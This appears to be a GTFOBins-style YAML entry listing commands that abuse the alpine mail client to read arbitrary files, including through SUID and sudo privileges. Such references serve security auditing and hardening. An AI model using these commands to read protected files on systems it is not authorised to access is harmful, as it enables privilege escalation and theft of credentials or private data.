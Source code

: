 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        alpine -F "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./alpine -F "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo alpine -F "$LFILE"
---
```

